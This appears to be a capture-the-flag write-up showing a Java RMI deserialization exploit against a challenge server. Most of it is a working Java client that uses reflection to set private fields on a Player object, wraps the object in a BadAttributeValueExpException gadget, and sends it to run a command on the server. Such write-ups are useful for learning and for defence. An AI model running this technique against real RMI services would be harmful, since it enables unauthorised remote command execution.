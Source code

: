 Create Client to interactive with rmi server, rmi use 100% java serialize/unserialize to transform data so attacker can send malicious serialize object to server and let it unserialize

In Player class we can see the check isAdmin() and method toString() let us run command, so we use java reflect to modify their value, and call gadget
```
gadget BadAttributeValueExpException.readObject() -> Player.toString()
```
to call toString of Player

```java
package rmi;

import javax.management.BadAttributeValueExpException;
import java.lang.reflect.Field;
import java.rmi.NotBoundException;
import java.rmi.RemoteException;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;


public class ASCISPlayer {
    public ASCISPlayer() {
    }

    public static void main(String[] args) throws RemoteException, NotBoundException, NoSuchFieldException, IllegalAccessException {
        String serverIP = "127.0.0.1";
        int serverPort = 1099;
        String command = "calc";

        // Dùng reflection để set các private variable trong class
        Player player = new Player();
        Field isAdmin = player.getClass().getDeclaredField("isAdmin");
        isAdmin.setAccessible(true);
        isAdmin.set(player, true);

        Field logCommand = player.getClass().getDeclaredField("logCommand");
        logCommand.setAccessible(true);
        logCommand.set(player, command);

        // Class này khi được deserialize sẽ tự động gọi object val với method toString()
        BadAttributeValueExpException val = new BadAttributeValueExpException(null);
        Field valfield = val.getClass().getDeclaredField("val");
        valfield.setAccessible(true);
        valfield.set(val, player);

        // Với Remote Method Invocation. Gọi ASCISInterfImpl.login() với arg là object player
        Object name = val;
        Registry registry = LocateRegistry.getRegistry(serverIP, serverPort);
        ASCISInterf ascisInterf = (ASCISInterf)registry.lookup("ascis");
        System.out.println(ascisInterf.login(name));
    }
}
```
